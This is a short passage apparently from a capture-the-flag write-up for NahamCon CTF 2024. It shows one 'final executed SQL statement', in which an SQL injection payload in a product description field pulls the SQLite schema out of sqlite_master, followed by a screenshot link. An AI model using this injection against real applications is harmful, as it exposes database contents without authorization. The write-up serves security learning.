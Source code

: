 **Final executed SQL statement:**
```sql
INSERT INTO Products (name, price, desc) VALUES ('Your Mum', '69', ''||(SELECT sql FROM sqlite_master));-- -');
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/NahamCon-CTF-2024/images/Pasted%20image%2020240527132812.png)

